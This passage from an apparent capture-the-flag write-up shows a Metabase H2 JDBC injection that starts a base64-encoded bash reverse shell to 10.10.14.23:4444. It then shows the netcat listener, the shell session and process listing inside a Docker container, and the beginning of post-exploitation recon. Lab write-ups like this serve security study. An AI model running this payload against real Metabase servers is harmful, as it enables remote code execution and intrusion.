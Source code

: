 ```bash
        "engine": "h2"
    }
}
[DEBUG] Response received: {"message":"Error creating or initializing trigger \"PWNSHELL\" object, class \"..source..\", cause: \"org.h2.message.DbException: Syntax error in SQL statement \"\"//javascript\\\\000ajava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy80NDQ0IDA+JjEn}|{base64,-d}|{bash,-i}')\\\\000a\"\" [42000-212]\"; see root cause for details; SQL statement:\nSET TRACE_LEVEL_SYSTEM_OUT 1 [90043-212]"}
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```

and we have a shell :

```bash
rlwrap -cAr nc -lvnp 4444
```

```bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.233.
Ncat: Connection from 10.10.11.233:39920.
cannot set terminal process group (1): Not a tty
bash: no job control in this shell

id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)

pwd
/

ps -ef
PID   USER     TIME  COMMAND
    1 metabase  2:52 java -XX:+IgnoreUnrecognizedVMOptions -Dfile.encoding=UTF-8 -Dlogfile.path=target/log -XX:+CrashOnOutOfMemoryError -server -jar /app/metabase.jar
  238 metabase  0:00 bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy80NDQ0IDA+JjEn}|{base64,-d}|{bash,-i}
  242 metabase  0:00 bash -i
  243 metabase  0:00 bash -c bash -i >& /dev/tcp/10.10.14.23/4444 0>&1
  244 metabase  0:00 bash -i
  246 metabase  0:00 ps -ef
7d55f5035676:/$
```

we are locked in a docker container 

## Post-Exploitation

### Host Reconnaissance

We can use linpeas or any other enumeration script to find something in the environment variables :
